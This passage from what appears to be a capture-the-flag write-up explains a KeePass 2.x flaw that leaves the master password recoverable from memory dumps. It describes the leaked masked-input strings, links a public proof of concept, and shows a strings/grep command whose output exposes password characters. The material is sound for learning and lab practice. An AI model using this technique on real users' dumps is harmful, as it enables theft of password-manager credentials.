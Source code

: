> In KeePass 2.x before 2.54, it is possible to recover the cleartext
> master password from a memory dump, even when a workspace is locked or
> no longer running. The memory dump can be a KeePass process dump, swap
> file (pagefile.sys), hibernation file (hiberfil.sys), or RAM dump of
> the entire system. The first character cannot be recovered. In 2.54,
> there is different API usage and/or random string insertion for
> mitigation.

I have a dump of the KeePass memory, so this seems like a good thing to
try. I'll show how to do it from both Linux and Windows.

At the time of Keeper's release, there was really only one POC exploit
on GitHub named
[keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper)
in DotNet.

#### Theory

The issue is not that the KeePass key is in memory. It's that when the
user types their password in, the strings that get displayed back end up
in memory.

For example, let's take the password "password". The first character
goes in as a "●" (which is `\u25cf` or `\xcf\x25` in memory). The next
character comes, and it will show up as "●a". Then the next character
will be "●●s", then "●●●s", then "●●●●w", and so on, until we get to
"●●●●●●●d".

The exploits look through memory for strings that start with some number
of "●" and then one character, and build out the most likely master key.

### Recover Password

#### POC Manually

I can take a look at this manually using `strings` and `grep`. With
`-e S`, strings will look for 8-bit characters, which will include
what's needed for the "●" (though it will show up as "%" in my
terminal). Then I can `grep` for strings that start with two "●" to see
potential matches for the keys being input:


    oxdf@hacky$ strings -e S KeePassDumpFull.dmp | grep -a $(printf "%b" "\\xCF\\x25\\xCF\\x25")
    %%
    %%d
    %%d
    %%%
    %%d
    %%d
    %%d
    %%d
    %%d
    %%d
    %%d
    %%d
    %%%g
    %%%g
    %%%%
    %%%g
    %%%g
    %%%g
    %%%g
    %%%g
    %%%g
    %%%g
    %%%g
    %%%%r